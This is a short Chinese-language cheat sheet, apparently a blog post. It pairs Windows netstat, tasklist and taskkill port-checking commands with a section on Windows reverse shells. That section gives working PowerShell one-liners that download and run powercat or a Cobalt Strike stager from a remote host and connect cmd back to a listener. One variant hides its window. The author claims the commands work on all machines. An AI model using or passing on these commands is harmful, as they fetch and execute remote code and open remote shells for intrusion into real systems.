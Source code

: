 

windows中使用 netstat 命令用来监听端口



*   显示所有的有效连接信息列表，包括监听连接请求（LISTENING ）的连接、已建立的连接（ESTABLISHED ）、断开连接（CLOSE\_WAIT ）或者处于联机等待状态的（TIME\_WAIT ）等 ：netstat -a

*   以数字形式显示地址和端口号：netstst -an

*   除了显示这些信息外，还显示进程的PID：netstat -ano

*   查看被占用端口80对应的应用的PID：netstat -ano | findstr 80

*   查看80端口被哪个进程或程序占用：tasklist | findstr 80

*   结束该进程或程序：taskkill  /f  /t  /im  xx.exe        /f 杀死所有进程及   /t 强制杀死    /im 用镜像名称作为进程信息    

*   杀死指定PID的进程：taskkill  -F -pid 520        杀死PID为520的进程  

                     



Windows反弹Shell 

---------------



**cmd窗口下利用Powershell反弹NC shell** 



亲测所有机器都适用



```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd       
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.10.11  -p 8888 -e cmd.exe"
```




![](https://img-blog.csdnimg.cn/20190614151958497.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20190923172238269.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**cmd窗口下利用Powershell反弹CobaltStrike shell**



windows10 经常性不能用。windows 2008R2以下百分百适用。



```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"   #后台运行       
powershell.exe  -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"
```
